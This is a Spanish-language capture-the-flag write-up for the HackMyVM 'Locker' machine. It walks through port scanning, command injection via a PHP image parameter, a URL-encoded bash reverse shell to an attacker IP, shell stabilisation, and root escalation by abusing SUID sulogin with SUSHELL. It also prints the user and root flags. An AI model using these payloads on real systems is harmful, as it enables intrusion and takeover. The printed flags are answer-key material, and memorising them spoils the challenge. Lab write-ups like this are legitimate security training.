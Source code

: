 ```yaml
---
icon: flag
---
```


# Locker HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 03:47 EDT
Nmap scan report for 192.168.5.11
Host is up (0.0014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:4A:3E:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

Veremos que solo tenemos un puerto `80`, si entramos dentro veremos una pagina web normal que pone lo siguiente:

<figure><img src="../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

No vemos nada interesante, por lo que vamos a clickar en `Model 1` a ver que nos encontramos, echo eso veremos lo siguiente en la pagina:

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

Pero sobre todo es muy interesante la `URL` ya que esta utilizando `PHP` y llamando mediante un parametro `image` a un numero que se identifica como a la imagen, por lo que vamos a realizar varias pruebas de vulenrabilidades sobre dicho parametro no vaya a ser que se pudiera injectar comandos.

## Escalate user www-data

Realizando varias pruebas despues de estar un rato, vemos que concatenando comandos nos funciona, si abrimos `BurpSuite` y capturamos la peticion, lo mandamos al `Repeater` y realizamos ahi las pruebas, veremos que si ponemos lo siguiente podremos realizar un `RCE`.

```
URL = http://<IP>/locker.php?image=1;id;
```

Probando a poner `id` solamente, despues concatenandolo, tampoco funcionaba, pero si le pones un `;` extra detras, ya si que funciona y veremos lo siguiente en la peticion de respuesta:

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 10 May 2025 07:57:48 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 112

<img src="data:image/jpg;base64,uid=33(www-data) gid=33(www-data) groups=33(www-data)
"width="150"height="150"/>
```

Vemos que nos esta funcionando, por lo que vamos a generar una `reverse shell` de esta forma:

```
URL = http://<IP>/locker.php?image=1;bash+%20-c+%20"bash+%20-i+%20>%26+%20/dev/tcp/<IP_ATTACKER>/<PORT>+%200>%261";
```

Ahora nos pondremos a la escucha antes de enviarlo.

```shell
nc -lvnp <PORT>
```

Si enviamos la peticion y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.11] 54772
bash: cannot set terminal process group (362): Inappropriate ioctl for device
bash: no job control in this shell
www-data@locker:~/html$ whoami
whoami
www-data
```

Veremos que hemos obtenido acceso como el usuario `www-data` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez sanitizado todo, vamos a leer la `flag` del usuario.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos con dicho usuario, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
15884    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
     4639     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   137057     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
     3596     48 -rwsr-sr-x   1 root     root          47184 Jan 10  2019 /usr/sbin/sulogin
     3890     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
       62     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     3415     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
       59     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
       60     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
       63     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
     3888     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3562     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
```

Vemos uno bastante interesante, que es el siguiente:

```
3596   48 -rwsr-sr-x   1 root   root   47184 Jan 10  2019 /usr/sbin/sulogin
```

Vamos a investigar que hace dicho binario.

Si investigamos un poco cuando se ejecuta el binario entramos en un `interpreter` en el que podemos ejecutar comandos, pero al tener esta `shell` dentro de un contenedor de la maquina victima no va a funcionar a parte de que esta como bloqueado, pero si investigamos con el parametro `-e` podemos forzar esa ejecuccion y tendremos que exportar la variable de entorno `SUSHELL` para poner el script que queremos que ejecute para poder obtener acceso a `root`, por lo que haremos lo siguiente:

```shell
cd /tmp
```

> bash.py

```python
#!/bin/python3

import os

os.setuid(0)
os.setgid(0)
print("Obteniendo Bash como root...")

os.system('/bin/bash')

print("Ya eres root!!")
```

Lo guardamos y establecemos permisos de ejecuccion:

```shell
chmod +x bash.py
```

Echo esto tendremos que exportar la variable de entorno a la de la ruta de `/tmp` con el script de `python`.

```shell
export SUSHELL=/tmp/bash.py
```

Echo esto, podremos ejecutar el `binario` con permisos de `SUID` pero haciendolo de una manera forzada con el parametro `-e`.

```shell
/usr/sbin/sulogin -e
```

Info:

```
Press Enter for maintenance
(or press Control-D to continue): # Dejamos el campo vacio y le damos a "ENTER"
Obteniendo Bash como root...
root@locker:~# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos las `2` `flags` la del usuario y la de `root`.

> user.txt

```
flaglockeryes
```

> root.txt

```
igotroothere
```
